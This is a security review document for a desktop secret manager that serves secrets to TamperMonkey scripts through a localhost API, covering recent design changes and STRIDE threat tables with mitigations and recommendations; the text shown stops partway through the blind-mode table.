








# TamperMonkey Secret Manager -- Security Review (Phase 7, Update 2)

**Document Version**: 2.0  
**Date**: 2026-03-19  
**Previous Version**: 1.0 (2026-03-12)  
**Scope**: Full STRIDE threat analysis, attack surface enumeration, data flow review, residual risk assessment, and **security assessment of recent changes** (token persistence, fixed port, Tauri event emission, one-click toast approval, AppHandle in shared state).

---

## Table of Contents

1. [Recent Changes -- Security Assessment](#1-recent-changes----security-assessment)
2. [STRIDE Threat Analysis](#2-stride-threat-analysis)
3. [Attack Surface Enumeration](#3-attack-surface-enumeration)
4. [Data Flow Analysis](#4-data-flow-analysis)
5. [Blind Mode Bypass Audit](#5-blind-mode-bypass-audit)
6. [Dependency Audit](#6-dependency-audit)
7. [Residual Risk Register](#7-residual-risk-register)
8. [Incident Response Playbook](#8-incident-response-playbook)
9. [Recommendations for Future Improvement](#9-recommendations-for-future-improvement)
10. [Overall Security Posture Assessment](#10-overall-security-posture-assessment)

---

## 1. Recent Changes -- Security Assessment

This section evaluates five recent changes to the application and their impact on the security posture. Each finding has a risk rating and specific recommendations.

### 1.1 Bearer Token Persistence Across Launches

**Change**: The bearer token is now reused across application restarts. On first launch (or after explicit rotation via [`rotate_api_token`](../src-tauri/src/commands.rs:1319)), a new token is generated and saved to `{app_data_dir}/tampermonkey-secrets/api.token`. On subsequent launches, [`load_token()`](../src-tauri/src/api/auth.rs:39) reads the existing token from disk.

**Previous behavior**: Token was regenerated every launch, requiring TamperMonkey scripts to be reconfigured each restart.

**Risk Rating**: **Medium**

**Analysis**:

| Aspect | Per-Launch Rotation (old) | Persistent Token (new) |
|--------|--------------------------|----------------------|
| Token lifetime | Minutes to hours | Indefinite until explicit rotation |
| Exposure window | Narrow | Wide -- compromise persists across restarts |
| UX friction | High -- reconfigure scripts every restart | Low -- configure once |
| File system exposure | Token file overwritten each launch | Token file is long-lived and a static target |
| Incident recovery | Restart clears compromised token | Must explicitly call rotate_api_token |

**Specific risks introduced**:

1. **Longer compromise window**: A stolen token remains valid until the user explicitly rotates it. Previously, restarting the app was sufficient to invalidate a compromised token.

2. **Token file becomes higher-value target**: The `api.token` file now represents a persistent credential rather than an ephemeral one. Malware that reads the file once gains indefinite access.

3. **No automatic token age enforcement**: There is no mechanism to auto-rotate the token after N days. A token could persist for months without rotation.

**Mitigating factors**:

- File is protected by icacls (current user read/write only) via [`set_owner_only_permissions()`](../src-tauri/src/api/auth.rs:119)
- Two-layer authorization still applies -- token only passes the auth gate; per-script + per-secret checks still enforced
- User can manually rotate via the UI at any time
- Rate limiting still constrains brute-force attempts

**Recommendations**:

| # | Recommendation | Priority |
|---|---------------|----------|
| 1.1a | Add optional **auto-rotation schedule** (e.g., rotate token on first launch after N days since last rotation). Log `api_token_auto_rotated` to audit. | Medium |
| 1.1b | Display **token age** in the Settings UI so users can see how long the current token has been active. | Low |
| 1.1c | On [`rotate_api_token`](../src-tauri/src/commands.rs:1319), also **zeroize the old token in the file** before writing the new one (currently `fs::write` overwrites, but the old data may linger in file system journal/slack space). | Low |
| 1.1d | Log a **warning event** if the token has not been rotated in >30 days, visible in the audit log. | Low |

---

### 1.2 Fixed Default Port (17179)

**Change**: The API server now binds to port **17179** by default ([`DEFAULT_PORT`](../src-tauri/src/api/server.rs:23)). If busy, falls back to a random OS-assigned port ([`server.rs:116`](../src-tauri/src/api/server.rs:116)).

**Previous behavior**: Always bound to a random port (`SocketAddr::from(([127, 0, 0, 1], 0u16))`).

**Risk Rating**: **Low**

**Analysis**:

| Attack Vector | Random Port (old) | Fixed Port (new) |
|--------------|------------------|-----------------|
| Port scanning required? | Yes -- attacker must scan localhost | No -- port is known |
| Port pre-binding attack | Unlikely (random target) | Possible -- malware binds 17179 before app starts to intercept |
| Firewall rules | Hard to whitelist | Easy to whitelist specifically |
| Script configuration | Must read api.port file each launch | Can hardcode port in scripts |

**Specific risks introduced**:

1. **Port squatting / pre-binding attack**: Malware could bind to port 17179 before the application starts, creating a rogue server that collects bearer tokens from TamperMonkey scripts. The scripts would send their `Authorization: Bearer <token>` header to the malicious server. The app would silently fall back to a random port and the scripts would fail.

   - **Severity**: Medium (requires malware on the system that runs before the app)
   - **Likelihood**: Low (targeted attack on this specific application)
   - **Mitigation**: TamperMonkey scripts should verify the response includes expected fields. The `api.port` file always reflects the actual port, so scripts reading this file would connect correctly. Pre-binding attack only affects scripts with hardcoded ports.

2. **Local enumeration**: Any process on the machine can probe `127.0.0.1:17179` to determine if the secret manager is running. With a random port, this required scanning.

   - **Severity**: Low (informational disclosure only -- running status)
   - **Mitigation**: The `/api/health` endpoint already responds without auth, so detection was always possible; a known port just makes it trivial.

**Mitigating factors**:

- Bearer token is still required for all non-health endpoints
- `127.0.0.1` binding prevents external network access
- Fallback to random port provides resilience
- Rate limiting applies to all endpoints including health

**Recommendations**:

| # | Recommendation | Priority |
|---|---------------|----------|
| 1.2a | **Document the port-squatting risk** in user-facing docs. Advise scripts to read `api.port` file rather than hardcoding 17179. | Medium |
| 1.2b | On startup, if fallback to random port occurs, **emit a warning event** to the frontend (e.g., "Another process is using port 17179 -- using fallback port"). This alerts users to potential port squatting. | Medium |
| 1.2c | Consider adding a **server identity verification** mechanism: the health endpoint could return a signed nonce or a hash derived from the bearer token, allowing scripts to verify they are talking to the real server without revealing the token. | Low |

---

### 1.3 Tauri Event Emission from API Routes

**Change**: The HTTP API server now emits Tauri events to the frontend via the [`AppHandle`](../src-tauri/src/state.rs:34) stored in `AppState`. Two events are emitted:

- **`secret-access-requested`** with payload [`AccessRequestEvent`](../src-tauri/src/api/routes.rs:18): `{ script_id, script_name, secret_name }`
- **`script-pending-approval`** with payload [`ScriptPendingEvent`](../src-tauri/src/api/routes.rs:27): `{ script_id, script_name, domain }`

**Risk Rating**: **Low**

**Analysis of event payloads**:

| Field | Sensitive? | Assessment |
|-------|-----------|------------|
| `script_id` | No | Self-reported identifier; already stored in DB |
| `script_name` | No | Self-reported name; already stored in DB |
| `secret_name` | **Marginal** | Reveals that a secret with this name exists; however, the frontend already has access to the full secret list via [`list_secrets`](../src-tauri/src/commands.rs:693) |
| `domain` | No | The domain the script runs on; already stored in DB |

**Specific risks evaluated**:

1. **Secret name disclosure via event**: The `secret_name` field in [`AccessRequestEvent`](../src-tauri/src/api/routes.rs:18) confirms the existence of a specific secret. However, this information is already available to the frontend via the [`list_secrets`](../src-tauri/src/commands.rs:693) IPC command. The event does not expose secret *values*.

2. **Event injection**: Could an attacker inject fake Tauri events to trigger social-engineering toasts? No -- [`handle.emit()`](../src-tauri/src/api/routes.rs:225) is called from Rust backend code, not from untrusted input. The Tauri event system is internal to the process.

3. **Information leakage to other windows**: Tauri events emitted via [`emit()`](../src-tauri/src/api/routes.rs:185) broadcast to all windows. Since the app has only one window ([`tauri.conf.json`](../src-tauri/tauri.conf.json:14)), this is not a concern.

4. **No secret values in payloads**: Neither event includes the actual secret value, decrypted or otherwise. The payloads contain only metadata that is already visible in the frontend's script management UI.

**Conclusion**: The event payloads do **not** leak sensitive data. They contain only metadata (script identity, secret names, domains) that the frontend already has access to through existing IPC commands.

**Recommendations**:

| # | Recommendation | Priority |
|---|---------------|----------|
| 1.3a | No changes needed. Current payloads are appropriately scoped. | N/A |
| 1.3b | If future events carry more sensitive data, use [`emit_to()`](https://docs.rs/tauri/latest/tauri/struct.AppHandle.html#method.emit_to) targeting only the main window label instead of broadcasting to all windows. | Info |

---

### 1.4 Frontend Toast with One-Click Approve

**Change**: [`AccessRequestToast.tsx`](../src/components/ui/AccessRequestToast.tsx:51) renders floating toast notifications for approval requests. Users can approve script registrations and secret access with a single click on the "Approve" button.

**Risk Rating**: **Medium**

**Analysis of approval flow**:

**Specific risks evaluated**:

1. **Accidental approval via rapid clicking**: If a user is actively clicking in the bottom-right area of the screen when a toast appears, they could inadvertently hit "Approve." The toast has a small approve button (`px-3 py-1.5`) positioned in the lower-right corner of the screen ([`AccessRequestToast.tsx:151`](../src/components/ui/AccessRequestToast.tsx:151)).

   - **Severity**: Medium -- grants a script persistent access to secrets
   - **Likelihood**: Low -- requires precise timing of user click and toast appearance
   - **Mitigation**: Toast uses `animate-slide-up` animation, providing visual notice. The approve button is small and requires deliberate targeting.

2. **Social engineering via toast flooding**: A malicious script could rapidly call the API with different `script_id` values to flood the UI with pending approval toasts, hoping the user approves some in frustration.

   - **Severity**: Medium -- could trick user into approving a malicious script
   - **Likelihood**: Low -- rate limiting (60 req/min) constrains the flood rate. Duplicate key suppression in [`AccessRequestToast.tsx:65`](../src/components/ui/AccessRequestToast.tsx:65) prevents duplicate toasts for the same script+secret pair.
   - **Mitigation**: Rate limiter, duplicate suppression, explicit dismiss button

3. **Clickjacking**: In a traditional web context, clickjacking overlays a transparent iframe to trick users into clicking. In a Tauri desktop app, the webview is not embeddable in an iframe by external sites. The CSP in [`tauri.conf.json`](../src-tauri/tauri.conf.json:24) restricts `default-src` to `'self'`, preventing external frame embedding.

   - **Severity**: N/A -- not applicable to Tauri desktop apps
   - **Mitigation**: Tauri's webview architecture prevents this attack vector entirely

4. **No confirmation dialog**: The approval is a single-click action with no "Are you sure?" confirmation. While this is a deliberate UX choice for low-friction workflows, high-value secrets could be accidentally exposed.

   - **Severity**: Low -- the user still controls which secrets are blind and which scripts exist
   - **Mitigation**: Approval can be revoked via the Scripts management UI

5. **Dismiss does not deny**: Clicking "Dismiss" only removes the toast from the UI. It does not mark the access request as denied in the database -- the unapproved record persists, and the toast will not reappear (because the DB record already exists). This means the script will continue to get 403 on subsequent attempts, which is correct behavior.

**Recommendations**:

| # | Recommendation | Priority |
|---|---------------|----------|
| 1.4a | Add a **configurable "confirm before approve" option** in Settings. When enabled, clicking Approve shows a brief confirmation dialog: "Grant [script_name] access to [secret_name]?" | Medium |
| 1.4b | Add an **approval cooldown**: after a toast appears, the Approve button should be **disabled for 2-3 seconds** to prevent accidental clicks from users who were clicking rapidly when the toast appeared. | Medium |
| 1.4c | Show the **number of pending approvals** somewhere persistent (e.g., a badge in the sidebar) so dismissed toasts can be revisited from the Scripts management page. | Low |
| 1.4d | Consider a **maximum concurrent toast limit** (e.g., 5). If more than 5 pending requests arrive, collapse them into a summary toast: "N scripts need approval -- view in Scripts page." This prevents UI flooding. | Medium |

---

### 1.5 AppHandle Stored in AppState

**Change**: The [`tauri::AppHandle`](../src-tauri/src/state.rs:34) is now stored as `pub app_handle: Mutex<Option<tauri::AppHandle>>` in `AppState`, shared between the Tauri IPC layer and the Axum HTTP server.

**Risk Rating**: **Info** (no new attack surface)

**Analysis**:

1. **Thread safety**: The `AppHandle` is wrapped in `Mutex<Option<...>>` which provides safe concurrent access. The Axum handlers acquire the lock briefly to emit events ([`routes.rs:183`](../src-tauri/src/api/routes.rs:183), [`routes.rs:223`](../src-tauri/src/api/routes.rs:223)), then release it immediately. The lock scope is minimal (emit call only).

2. **Lock contention**: Both IPC commands and HTTP handlers may contend on the `app_handle` mutex. However:
   - IPC commands do not currently use `app_handle`
   - HTTP handlers only lock it in the unapproved-script and unapproved-access paths
   - Lock duration is sub-millisecond (just an emit call)
   - No risk of deadlock -- the `app_handle` lock is never held while acquiring other locks

3. **Failure handling**: The HTTP routes use `if let Ok(handle_guard) = app.app_handle.lock()` ([`routes.rs:183`](../src-tauri/src/api/routes.rs:183)), which silently ignores poisoned mutex. This is correct -- a poisoned mutex (from a panic in another thread) should not prevent the HTTP API from functioning. The event emission is best-effort.

4. **Attack surface**: The `AppHandle` provides access to Tauri's event system, window management, and plugin APIs. However:
   - It is only accessed from Rust code (never exposed to the frontend)
   - It is used exclusively for [`emit()`](../src-tauri/src/api/routes.rs:185) calls
   - The Axum handlers cannot call arbitrary Tauri commands through the handle
   - No new IPC commands are exposed through this mechanism

5. **`AppHandle` set once at startup**: The handle is stored in [`lib.rs:46-48`](../src-tauri/src/lib.rs:46) during `setup()` and never modified afterward. The `Mutex<Option<..>>` pattern is used because `AppState` is constructed before the handle is available.

**Conclusion**: No new attack surface is introduced. The implementation follows safe Rust patterns for shared mutable state.

**Recommendations**:

| # | Recommendation | Priority |
|---|---------------|----------|
| 1.5a | Consider using `OnceLock<AppHandle>` instead of `Mutex<Option<AppHandle>>` since the handle is set once and never changed. This eliminates the runtime locking overhead entirely. | Low |

---

## 2. STRIDE Threat Analysis

### 2.1 Tauri IPC Layer (Frontend <-> Rust Backend)

| STRIDE Category | Threat | Current Mitigation | Status | Notes |
|---|---|---|---|---|
| **S**poofing | Malicious web content in webview invokes IPC commands | Tauri v2 capabilities restrict which commands are callable; CSP restricts script sources to `'self'` | Mitigated | Capabilities in [`default.json`](../src-tauri/capabilities/default.json) grant `core:default`, `opener:default`, `dialog:default` only |
| **T**ampering | Attacker modifies IPC request payloads in transit | IPC is in-process via Tauri bridge -- no network transport to intercept | Mitigated | Commands validate inputs (e.g., [`validate_secret_name()`](../src-tauri/src/api/routes.rs:78) enforces character allowlist) |
| **R**epudiation | User denies performing an action (create/delete secret) | Audit log records all security-relevant events with timestamps via [`log_event()`](../src-tauri/src/db/mod.rs:265) | Mitigated | Audit log is append-only in SQLite; no mechanism to delete individual entries |
| **I**nformation Disclosure | Blind secret values leak to frontend via IPC | [`get_secret`](../src-tauri/src/commands.rs:620) returns `value: None` when `secret.blind == true`; [`list_secrets`](../src-tauri/src/commands.rs:693) never decrypts values | Mitigated | See Section 5 for full blind mode audit |
| **D**enial of Service | Frontend floods IPC with rapid commands causing mutex contention | No IPC-level rate limiting; Mutex locks are short-lived | Residual | Low risk -- attacker would need code execution in webview |
| **E**levation of Privilege | Webview JS calls commands that bypass app lock state | All secret-access commands check via [`enforce_unlocked_or_auto_lock()`](../src-tauri/src/commands.rs:128) and return error if locked | Mitigated | Commands like [`create_secret`](../src-tauri/src/commands.rs:574), [`get_secret`](../src-tauri/src/commands.rs:620), [`update_secret`](../src-tauri/src/commands.rs:723) all verify unlock state |

### 2.2 Local HTTP API (TamperMonkey <-> Axum)

| STRIDE Category | Threat | Current Mitigation | Status | Notes |
|---|---|---|---|---|
| **S**poofing | Unauthorized process sends requests pretending to be a TamperMonkey script | Bearer token auth required on all endpoints except `/api/health`; constant-time comparison via [`constant_time_eq()`](../src-tauri/src/api/auth.rs:163) | Mitigated | Token is 32 bytes of OsRng randomness, base64url-encoded (256 bits of entropy) |
| **S**poofing | **[NEW]** Rogue process pre-binds port 17179 to intercept TamperMonkey requests | App falls back to random port; `api.port` file always reflects actual port | Partially Mitigated | Scripts hardcoding port 17179 are vulnerable to pre-binding attack |
| **T**ampering | Man-in-the-middle modifies HTTP requests/responses on localhost | Binding is `127.0.0.1` only via [`SocketAddr::from(([127, 0, 0, 1], DEFAULT_PORT))`](../src-tauri/src/api/server.rs:108); no external network exposure | Accepted | Local proxy tools could intercept loopback; HTTPS would mitigate but adds complexity |
| **R**epudiation | Script accesses secret but denies it | Audit log records `secret_accessed_via_api` with `script_id` and `secret_name` per [`get_secret_api`](../src-tauri/src/api/routes.rs:292) | Mitigated | Script ID is self-reported -- a malicious script could provide a false ID |
| **I**nformation Disclosure | API response leaks secret to caches or logs | No-cache headers set: `Cache-Control: no-store, no-cache, must-revalidate`, `Pragma: no-cache`, `X-Content-Type-Options: nosniff` per [`get_secret_api`](../src-tauri/src/api/routes.rs:298); plaintext zeroized after response built | Mitigated | Response body is plaintext string -- minimal surface |
| **I**nformation Disclosure | **[NEW]** Event payloads expose secret metadata to frontend | Events contain `script_id`, `script_name`, `secret_name`, `domain` -- no secret values | Accepted | Frontend already has access to this metadata via IPC commands |
| **D**enial of Service | Attacker floods API endpoints to exhaust resources | Rate limiter at 60 req/min/endpoint via [`RateLimiter::new(60, 60)`](../src-tauri/src/api/server.rs:91); returns HTTP 429 when exceeded | Mitigated | Rate limit is per-endpoint path, not per-IP; sufficient for localhost threat model |
| **E**levation of Privilege | Unapproved script accesses secrets by guessing names | Two-layer check: script must be approved AND have per-secret access granted; unapproved scripts get HTTP 403; unknown scripts auto-register as unapproved | Mitigated | Per-secret access control in [`get_secret_api`](../src-tauri/src/api/routes.rs:137) |

### 2.3 Cryptographic Operations (AES-256-GCM, Argon2id)

| STRIDE Category | Threat | Current Mitigation | Status | Notes |
|---|---|---|---|---|
| **S**poofing | N/A -- crypto does not authenticate identities | N/A | N/A | Authentication is handled at API/IPC layer |
| **T**ampering | Ciphertext modified to alter decrypted value | AES-256-GCM provides authenticated encryption -- any tampering causes decryption failure | Mitigated | GCM auth tag is 16 bytes; integrity verified on every decrypt |
| **R**epudiation | N/A -- crypto operations are not user-facing actions | N/A | N/A | |
| **I**nformation Disclosure | Weak key derivation allows brute-force of master password | Argon2id with 64MB memory / 3 iterations / 1 lane via [`kdf::derive_key()`](../src-tauri/src/crypto/kdf.rs:21); 16-byte random salt per key | Mitigated | Parameters are reasonable for desktop; OWASP recommends minimum 19MB for Argon2id |
| **I**nformation Disclosure | Nonce reuse leaks plaintext relationships | Random 12-byte nonce via OsRng per encryption in [`encrypt()`](../src-tauri/src/crypto/encryption.rs:46); collision probability ~2^-48 per key | Mitigated | Probability of collision is negligible for expected usage patterns |
| **D**enial of Service | Expensive Argon2id computation blocks the app | KDF runs on async Tauri runtime; 64MB/3iter completes in ~200-500ms on modern hardware | Accepted | Single-user desktop app; not a practical concern |
| **E**levation of Privilege | N/A | N/A | N/A | |

### 2.4 SQLite Database

| STRIDE Category | Threat | Current Mitigation | Status | Notes |
|---|---|---|---|---|
| **S**poofing | N/A -- database has no authentication layer | N/A | N/A | Access control is at OS file permission level |
| **T**ampering | Attacker modifies secrets.db directly on disk | File permissions hardened via [`harden_db_permissions()`](../src-tauri/src/api/auth.rs:144) using icacls; WAL journal mode enabled; foreign keys enforced | Partially Mitigated | Local admin can bypass user-level ACLs; no integrity checksums on DB file |
| **R**epudiation | Audit log entries deleted or modified | Audit log table is append-only by application logic; no DELETE operations exposed for audit_log | Mitigated | Direct DB access could still modify; consider signed audit entries for higher assurance |
| **I**nformation Disclosure | Database file read by unauthorized user reveals secrets | Secret values are individually encrypted with AES-256-GCM before storage; metadata (names, types, timestamps) is plaintext in DB | Partially Mitigated | Secret names, script registrations, and audit log are readable without the master key |
| **D**enial of Service | Database file corruption prevents app from functioning | WAL journal mode provides crash recovery; `CREATE TABLE IF NOT EXISTS` makes migrations idempotent per [`migrate_v1()`](../src-tauri/src/db/migrations.rs:49) | Mitigated | Standard SQLite resilience |
| **E**levation of Privilege | SQL injection via user-controlled inputs | All queries use parameterized statements (`params![]` macro) throughout [`db/mod.rs`](../src-tauri/src/db/mod.rs); no string concatenation in SQL | Mitigated | rusqlite enforces parameterized queries |

### 2.5 .tmvault File Format

| STRIDE Category | Threat | Current Mitigation | Status | Notes |
|---|---|---|---|---|
| **S**poofing | Attacker creates a fake .tmvault file to inject secrets | Magic bytes `TMVT` and version byte validated on import per [`import_vault()`](../src-tauri/src/secrets/vault.rs:128); secret count cross-checked against actual payload | Partially Mitigated | No digital signature -- authenticity relies on out-of-band trust |
| **T**ampering | Attacker modifies encrypted payload in vault file | AES-256-GCM auth tag prevents undetected tampering; any modification causes decryption failure | Mitigated | |
| **R**epudiation | Vault creator denies creating the vault | No signing or attribution mechanism in vault format | Residual | Could add creator metadata or digital signatures in future versions |
| **I**nformation Disclosure | Leaked vault file exposes secrets | Payload encrypted with AES-256-GCM; key derived from PIN via Argon2id (64MB/3iter) per [`export_vault()`](../src-tauri/src/secrets/vault.rs:68); expiration support in v2 format | Partially Mitigated | Weak PINs reduce security; secret count is visible in header bytes 21-24 |
| **D**enial of Service | Malformed vault file crashes the app | Input validation checks minimum size, magic bytes, version, empty payload per [`import_vault()`](../src-tauri/src/secrets/vault.rs:128); errors return Result::Err, no panics | Mitigated | |
| **E**levation of Privilege | Importing vault file with blind=false overrides blind flag | [`export_vault_file`](../src-tauri/src/commands.rs:914) uses `mark_blind || entry.blind` -- exported secrets preserve blind flag from source; import respects blind field from vault | Mitigated | Vault creator controls blind flag; this is by design |

### 2.6 File System Artifacts (api.token, api.port, secrets.db)

| STRIDE Category | Threat | Current Mitigation | Status | Notes |
|---|---|---|---|---|
| **S**poofing | Attacker replaces api.token file with known token | File permissions set via icacls to current user read/write per [`set_owner_only_permissions()`](../src-tauri/src/api/auth.rs:119) | Partially Mitigated | **[UPDATED]** Token is now persistent -- replacing the file gives attacker indefinite access until rotation |
| **T**ampering | Attacker modifies api.port to redirect scripts to malicious server | Port file set restricted via icacls; scripts can verify they connect to 127.0.0.1 | Partially Mitigated | If attacker can write to port file AND create a local server, they could intercept |
| **R**epudiation | N/A | N/A | N/A | |
| **I**nformation Disclosure | api.token read by malware grants API access | icacls restricts to current user via [`set_owner_only_permissions()`](../src-tauri/src/api/auth.rs:119); file is read/write restricted | Partially Mitigated | **[UPDATED]** Persistent token means a one-time read grants access until explicit rotation; admin/SYSTEM can bypass ACLs |
| **D**enial of Service | Attacker deletes token/port files preventing script communication | Token loaded once at startup; files recreated if missing on next launch | Mitigated | **[UPDATED]** Deleting token file mid-session has no effect (token is in memory) |
| **E**levation of Privilege | api.token grants full secret access without per-secret checks | Token only passes the auth gate; per-script approval and per-secret access still enforced in [`get_secret_api()`](../src-tauri/src/api/routes.rs:137) | Mitigated | Two-layer authorization model |

### 2.7 Master Password / Key Derivation

| STRIDE Category | Threat | Current Mitigation | Status | Notes |
|---|---|---|---|---|
| **S**poofing | Attacker guesses the master password | Argon2id KDF makes each guess expensive (~200-500ms); no lockout mechanism | Partially Mitigated | No password complexity enforcement; no failed-attempt lockout; failed attempts logged |
| **T**ampering | Attacker modifies stored salt/verification token to enable access with known password | Database file permissions restrict write access; verification token must decrypt to known plaintext `TAMPERMONKEY_SECRETS_VERIFIED` per [`VERIFICATION_PLAINTEXT`](../src-tauri/src/commands.rs:16) | Mitigated | Replacing salt+token would require knowing the attack password to create valid pair |
| **R**epudiation | N/A | N/A | N/A | |
| **I**nformation Disclosure | Master key persists in memory while unlocked | Key stored in `Mutex<Option<[u8; 32]>>` per [`AppState`](../src-tauri/src/state.rs:15); zeroized on lock via [`AppState::lock()`](../src-tauri/src/state.rs:54) | Accepted | Key must be in memory while unlocked by design; auto-lock timer now implemented (default 15 min) |
| **D**enial of Service | Repeated unlock attempts to slow the app | Each attempt costs ~200-500ms of Argon2id computation; no amplification | Accepted | Desktop app -- attacker has physical access anyway |
| **E**levation of Privilege | Compromised password cannot be rotated | **[RESOLVED]** [`change_master_password`](../src-tauri/src/commands.rs:372) now allows atomic re-encryption of all secrets with new key | Mitigated | Atomically re-encrypts in a single SQLite transaction |

### 2.8 Blind Mode Enforcement

| STRIDE Category | Threat | Current Mitigation | Status | Notes |
|---|---|---|---|---|
| **S**poofing | N/A | N/A | N/A | |
| **T**ampering | Attacker modifies blind flag in database to expose values | DB file permissions restrict write; blind flag is per-row in secrets table | Partially Mitigated | Local admin or current-user malware could modify DB |
| **R**epudiation | N/A | N/A | N/A | |
